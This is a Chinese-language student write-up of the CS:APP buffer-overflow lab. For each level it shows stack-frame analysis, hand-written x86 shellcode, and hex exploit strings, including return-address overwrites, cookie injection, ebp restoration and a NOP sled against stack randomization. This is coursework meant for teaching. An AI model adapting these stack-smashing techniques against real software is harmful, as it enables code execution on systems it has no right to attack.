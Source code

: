 # Solution

## 0 Candle

本题要求`getbuf()`返回后执行`smoke()`，只需覆盖掉`test()`栈帧内的`getbuf()`返回地址即可

1. 找到`getbuf()`代码

   ![image-20221107164146220](C:\Users\rjw2002\AppData\Roaming\Typora\typora-user-images\image-20221107164146220.png)

2. 画出栈帧图

   ![image-20221112102650173](C:\Users\rjw2002\AppData\Roaming\Typora\typora-user-images\image-20221112102650173.png)

3. 发现要覆盖44个byte后才到达返回地址位置，接下来将返回地址替换为`smoke`地址

![image-20221107164300868](C:\Users\rjw2002\AppData\Roaming\Typora\typora-user-images\image-20221107164300868.png)

**结论：**最终将要写入的是44个任意无用值加上4个地址

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 04 8b 04 08
```



## Sparkler

本题要求`getbuf()`返回后执行`fizz()`，同时修改参数`val`，只需覆盖掉`test()`栈帧内的`getbuf()`返回地址， 同时修改参数即可

1. `getbuf()`上题已获取代码，先找到fizz代码

   ![image-20221107165643916](C:\Users\rjw2002\AppData\Roaming\Typora\typora-user-images\image-20221107165643916.png)

2. 画出栈帧

   ![image-20221112103353680](C:\Users\rjw2002\AppData\Roaming\Typora\typora-user-images\image-20221112103353680.png)

3. 变量就在返回地址之上。**此处由于非正常的函数调用，getbuf()返回地址被覆盖后又被弹入eip，但fizz（）没有call指令，导致fizz栈帧中认为的val的位置实际上在test栈帧中还要再多4个字节**

**结论：**44个无用值+fizz地址+4个无用值+cookie值

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 2e 8b 04 08 00 00 00 00 4e b1 13 6f
```



## Firecracker

本题要求`getbuf()`返回后执行`bang()`，同时修改参数`global_value`。改变执行函数只需覆盖掉`test()`栈帧内的`getbuf()`返回地址， 但修改全局变量显然不是覆盖栈中某个位置的问题，需要插入自己的代码让函数执行。

因此本题思路是写一段自己的代码让函数执行，执行的方法便是将`getbuf()`返回地址修改为自己代码的地址。而我们自己的代码在`getbuf`时存在了`buf`数组中，因此核心问题是找到`buf`的地址

1. 看`bang()`代码获取地址，并且发现全局变量的位置在0x804e10c

   ![image-20221107171551028](C:\Users\rjw2002\AppData\Roaming\Typora\typora-user-images\image-20221107171551028.png)

2. 写出汇编代码

```
movl $0x6f13b14e, 0x804e10c		//将cookie写入全局变量位置
push $0x08048b82				//将bang地址压入栈然后ret直接到eip中
ret
```

3. 解析为机器码

```
00000000 <.text>:
   0:	c7 05 0c e1 04 08 4e 	movl   $0x6f13b14e,0x804e10c
   7:	b1 13 6f 
   a:	68 82 8b 04 08       	push   $0x8048b82
   f:	c3                   	ret    
```

4. gdb找到buf位置，用其替换`getbuf()`的返回地址

![image-20221107185539456](C:\Users\rjw2002\AppData\Roaming\Typora\typora-user-images\image-20221107185539456.png)

**结论：**自己写的代码+一些无用值+buf地址

```
c7 05 0c e1 04 08 4e b1 13 6f 68 82 8b 04 08 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 18 3b 68 55
```



## Dynamite

本题要求将`val`改成`cookie`并且不影响`test()`其他的执行

由于要重写`getbuf()`返回地址，`test()`栈帧的`ebp`必然会被修改，因此要保存旧ebp的值

1. 观察test代码，修改全局变量实际上只需要修改eax的值

   ![image-20221112110248211](C:\Users\rjw2002\AppData\Roaming\Typora\typora-user-images\image-20221112110248211.png)

2. gdb找到旧ebp的值

   ![image-20221107201117154](C:\Users\rjw2002\AppData\Roaming\Typora\typora-user-images\image-20221107201117154.png)

3. 写汇编代码

```
mov $0x6f13b14e, %eax		//写入cookie
mov $0x55683b70, %ebp		//保存旧ebp
push $0x8048bf3				//test中下一个指令的地址
ret
```

4. 转为机器码

```
00000000 <.text>:
   0:	b8 4e b1 13 6f       	mov    $0x6f13b14e,%eax
   5:	bd 70 3b 68 55       	mov    $0x55683b70,%ebp
   a:	68 f3 8b 04 08       	push   $0x8048bf3
   f:	c3                   	ret    
```

**结论：**自己的代码+一些无用值+ebp不修改+buf地址

```
b8 4e b1 13 6f bd 70 3b 68 55 68 f3 8b 04 08 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 70 3b 68 55 18 3b 68 55
```



## Nitroglycerin

本题采用了栈随机化的设置，我们无法获取到准确的buf的位置

1. 观察`getbufn()`代码，buf的地址始终在ebp-208。buf到ret之间有524个字节

   ![image-20221107212208468](C:\Users\rjw2002\AppData\Roaming\Typora\typora-user-images\image-20221107212208468.png)

2. gdb获取5次ebp的值，最大在0x55683be0，-208获取buf

   ![image-20221112111726522](C:\Users\rjw2002\AppData\Roaming\Typora\typora-user-images\image-20221112111726522.png)

> 为什么取最大地址？
>
> 我们的代码必然是前面一大串nop，后面才是有效的代码。
>
> 假设我们取的是介于最大和最小中间的一个地址，记为p。若实际地址比p小，这时我们访问到的是nop；若实际地址比p大，这时我们访问不到我们的代码。
>
> 因此必须取最大地址，保证任何时候实际地址都比我们小或相等

3. 类似上一题，存eax，ebp以及下一条指令地址

![image-20221107212147608](C:\Users\rjw2002\AppData\Roaming\Typora\typora-user-images\image-20221107212147608.png)

```
mov $0x6f13b14e, %eax
lea 0x28(%esp), %ebp	//ebp虽然变化，但与esp有固定关系
push $0x8048c67
ret
```

```
00000000 <.text>:
   0:	b8 4e b1 13 6f       	mov    $0x6f13b14e,%eax
   5:	8d 6c 24 28          	lea    0x28(%esp),%ebp
   9:	68 67 8c 04 08       	push   $0x8048c67
   e:	c3                   	ret    
```

**结论：**一大串nop+自己的代码+最大的buf地址

```
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 
b8 4e b1 13 6f 
8d 6c 24 28 
68 67 8c 04 08 
c3 
a8 39 68 55 
```



# 感想收获

+ 实验后对程序运行时的堆栈结构有了更深的了解
+ 攻击程序手段多样，且十分有趣
